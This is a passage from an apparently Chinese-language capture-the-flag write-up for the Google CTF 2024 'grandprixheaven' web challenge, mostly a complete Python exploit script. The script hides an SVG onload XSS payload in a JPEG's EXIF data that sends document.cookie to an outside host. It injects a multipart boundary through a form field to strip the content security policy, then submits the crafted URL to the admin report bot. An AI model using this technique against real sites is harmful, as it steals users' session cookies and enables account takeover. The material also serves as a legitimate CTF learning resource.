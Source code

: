 因此我們的 xss url 會是 `https://grandprixheaven-web.2024.ctfcompetition.com/fave/<car-id>?F1=\media\<img-id>`，把這個丟 `report` 就能 xss

所以整體順序是：
1. 先生帶 xss payload 的圖片
2. 新增車並上傳該圖片，並且對 custom 做操作繞過檢查塞進 `mediaparser` 且拔掉 `csp`
3. 取得車的 url
4. 解析 json 拿到 img-id
5. 構建 xss url

### exploit

```python
from PIL import Image
import piexif
import io
import requests
import urllib.parse

url = "https://grandprixheaven-web.2024.ctfcompetition.com"
httpserver = "https://vpn.chummydns.com:20000/"

img = Image.new('RGB', (10, 10))
exif_dict = {'0th': {270: f"<svg><svg/onload='window.location=\"{httpserver}\"+document.cookie'>"}}
exif_bytes = piexif.dump(exif_dict)

buffer = io.BytesIO()

img.save(buffer, format='JPEG', exif=exif_bytes)

buffer.seek(0)

r = requests.post(urllib.parse.urljoin(url, '/api/new-car'), allow_redirects=False, files={
    'image': ('test.jpg', buffer, 'image/jpeg'),
}, data={
    'year': 2004,
    'make': 'aaa',
    'model': 'aaa',
    'custom': '{"1":"retrieve","2\\"\\r\\n\\r\\nmediaparser\\r\\n--GP_HEAVEN\\r\\nContent-Disposition: form-data; name=\\"3":"head_end","4":"faves","5":"footer","6":"footer","0a":"csp"}'
})

f1url = urllib.parse.urlparse(urllib.parse.urljoin(url, r.headers['Location']))

f1path = f1url.path
f1query = urllib.parse.parse_qs(f1url.query)

r = requests.get(urllib.parse.urljoin(url, f"/api/get-car/{f1query['F1'][0]}"))

imgid = r.json()['img_id']
params = {
    "F1": f"\media\{imgid}"
}

xssurl = f'{urllib.parse.urljoin(url, f1path)}?{urllib.parse.urlencode(params)}'

requests.post(urllib.parse.urljoin(url, "/report"), data={
    'url': xssurl
})
```
